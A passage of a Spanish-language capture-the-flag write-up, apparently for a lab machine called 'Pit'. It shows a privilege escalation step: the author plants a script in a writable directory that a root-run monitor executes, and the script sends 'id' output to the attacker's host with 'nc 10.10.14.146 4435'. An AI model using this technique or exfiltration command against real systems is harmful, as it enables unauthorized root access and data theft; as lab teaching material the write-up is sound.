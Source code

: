 Bien, al parecer si, para asegurarnos hacemos la fácil:

```bash
[michelle@pit ~]$ echo "holaaaaaaaaaaaaaaa" > /usr/local/monitoring/hola.txt
[michelle@pit ~]$ ls -la /usr/local/monitoring/hola.txt
-rw-rw-r--. 1 michelle michelle 19 Jun 29 25:25 /usr/local/monitoring/hola.txt
[michelle@pit ~]$ cat /usr/local/monitoring/hola.txt
holaaaaaaaaaaaaaaa
```

Bien, confirmado. Entonces intentemos generar el archivo que colocaremos en esa ruta y veamos si pasa algo.

---

## Generamos script que ejecutará <u>/usr/bin/monitor</u> [📌](#privesc_scriptcheck) {#privesc_scriptcheck}

Para validar que el script nos funcione podemos indicarle que haga varias cositas:

```bash
❱ cat checkea.sh
#!/bin/bash

id > /home/michelle/id.txt
id | nc 10.10.14.146 4435
```

Al ser ejecutado crearía un archivo en la ruta `/home/michelle/` llamado `id.txt` con el contenido del comando `id` (que debería ser del usuario `root`, o el que esté ejecutando `/usr/bin/monitor`) y enviaría el mismo resultado, pero a un puerto por el que estaremos escuchando...

```bash
❱ nc -lvp 4435
```

Subimos el script:

```bash
❱ python3 -m http.server
```

```bash
[michelle@pit ~]$ mkdir testeando
[michelle@pit ~]$ cd testeando/
[michelle@pit ~/testeando]$ curl http://10.10.14.146:8000/checkea.sh -o checkea.sh
```

Ahora démosle permisos de ejecución:

```bash
[michelle@pit ~/testeando]$ chmod +x checkea.sh
```

Y finalmente lo copiamos a la ruta:

```bash
[michelle@pit ~/testeando]$ cp checkea.sh /usr/local/monitoring/
```
